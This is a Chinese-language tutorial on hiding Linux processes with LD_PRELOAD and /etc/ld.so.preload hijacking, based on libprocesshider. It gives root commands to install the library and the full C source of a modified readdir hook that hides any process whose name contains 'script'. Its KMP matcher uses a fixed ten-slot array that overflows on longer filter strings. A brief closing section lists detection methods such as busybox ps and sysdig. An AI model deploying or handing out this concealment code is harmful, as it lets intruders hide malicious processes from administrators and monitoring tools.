








#### 劫持lib库

```
原理解析：利用环境变量LD_PRELOAD或者配置ld.so.preload文件使的恶意的动态库先于系统标准库加载，以达到架空系统标准库中相关函数的目的，最终实现对特定进程的隐藏。
```


**实现通过劫持lib库隐藏进程**

**这里参考：**

https://github.com/gianlucaborello/libprocesshider ，英文教程

https://www.anquanke.com/post/id/226285


**首先下载环境**

```
git clone git@github.com:gianlucaborello/libprocesshider.git
cd libprocesshider-master
```

**自定义过滤函数**

编辑 processhider.c，根据需要过滤的程序名称，修改process_to_filter变量值。这里需要注意下，这里匹配的是程序运行时候显示的名字，如果要使用python运行的话，这里应该填写的是python，python3同理。这里填写evil_script.py那么执行的时候就应该使用./方式执行，这样程序名为evil_script.py才会匹配并过滤。

```
......
/*
 * Every process with this name will be excluded
 */
static const char* process_to_filter = "evil_script.py";

......
```


**配置环境**

```
parallels@ubuntu:~/Documents/libprocesshider-master$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
parallels@ubuntu:~/Documents/libprocesshider-master$ sudo mv libprocesshider.so /usr/local/lib/
sudo -i 进入管理员权限 
root@ubuntu:/home/parallels/Documents/libprocesshider-master# echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

****

```
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
cat /etc/ld.so.preload
```


测试ps是否会访问预加载，发现是加载了。

```
strace -f ps 2>&1 |grep ld.so.preload
```

****

**这里注意需要./执行evil_script.py, 进程名才会被过滤，如果想使用python执行，那么前面****processhider.c需要关键字设置为python。然后ps查询，程序名称已被过滤。**




当然这里也可以进行改进，我们在另外研究。如豪宝改的通过关键字检索并用于过滤进程，匹配关键字的进程隐藏。这段代码可以在这里查看更多细节 https://github.com/ghostsang/Learning-library


```
#define _GNU_SOURCE

#include <stdio.h>
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>
#include <unistd.h>

/*
 * Every process with this name will be excluded
 */
static const char* process_to_filter = "script";

/*
 * Get a directory name given a DIR* handle
 */
static int get_dir_name(DIR* dirp, char* buf, size_t size)
{
    int fd = dirfd(dirp);
    if(fd == -1) {
        return 0;
    }

    char tmp[64];
    snprintf(tmp, sizeof(tmp), "/proc/self/fd/%d", fd);
    ssize_t ret = readlink(tmp, buf, size);
    if(ret == -1) {
        return 0;
    }

    buf[ret] = 0;
    return 1;
}

/*
 * Get a process name given its pid
 */
static int get_process_name(char* pid, char* buf)
{
    if(strspn(pid, "0123456789") != strlen(pid)) {
        return 0;
    }

    char tmp[256];
    snprintf(tmp, sizeof(tmp), "/proc/%s/stat", pid);
 
    FILE* f = fopen(tmp, "r");
    if(f == NULL) {
        return 0;
    }

    if(fgets(tmp, sizeof(tmp), f) == NULL) {
        fclose(f);
        return 0;
    }

    fclose(f);

    int unused;
    sscanf(tmp, "%d (%[^)]s", &unused, buf);
    return 1;
}

static void Next(const char* T,int *next){
    int i=1;
    next[1]=0;
    int j=0;
    while (i<strlen(T)) {
        if (j==0||T[i-1]==T[j-1]) {
            i++;
            j++;
            next[i]=j;
        }else{
            j=next[j];
        }
    }
}
static int KMP(char * S,const char* T){
    int next[10];
    Next(T,next);
    int i=1;
    int j=1;
    while (i<=strlen(S)&&j<=strlen(T)) {
        if (j==0 || S[i-1]==T[j-1]) {
            i++;
            j++;
        }
        else{
            j=next[j];
        }
    }
    if (j>strlen(T)) {
        return i-(int)strlen(T);
    }
    return -1;
}


#define DECLARE_READDIR(dirent, readdir)                                \
static struct dirent* (*original_##readdir)(DIR*) = NULL;               \
                                                                        \
struct dirent* readdir(DIR *dirp)                                       \
{                                                                       \
    if(original_##readdir == NULL) {                                    \
        original_##readdir = dlsym(RTLD_NEXT, #readdir);               \
        if(original_##readdir == NULL)                                  \
        {                                                               \
            fprintf(stderr, "Error in dlsym: %s\n", dlerror());         \
        }                                                               \
    }                                                                   \
                                                                        \
    struct dirent* dir;                                                 \
                                                                        \
    while(1)                                                            \
    {                                                                   \
        dir = original_##readdir(dirp);                                 \
        if(dir) {                                                       \
            char dir_name[256];                                         \
            char process_name[256];                                     \
            if(get_dir_name(dirp, dir_name, sizeof(dir_name)) &&        \
                strcmp(dir_name, "/proc") == 0 &&                       \
                get_process_name(dir->d_name, process_name) &&          \
                KMP(process_name, process_to_filter)!=-1) {         \
                continue;                                               \
            }                                                           \
        }                                                               \
        break;                                                          \
    }                                                                   \
    return dir;                                                         \
}

DECLARE_READDIR(dirent64, readdir64);
DECLARE_READDIR(dirent, readdir);
```

这里测试含有script的过滤，evil_script.py 成功被过滤掉了。




**应对方式**

1. busybox

busybox ps方式执行ps，可以不预加载库对于劫持lib场景有奇效。

```
busybox ps
```




1. sysdig 

还可以通过

```
sudo sysdig -c topprocs_cpu     # 查看cpu进程占用情况
sudo sysdig proc.name contains evil_script   # 针对包含evil_script的进程监测
# 监测网络情况
sudo sysdig -c topprocs_net
sudo sysdig -c topconns
```






1.  /proc/PID/cmdline


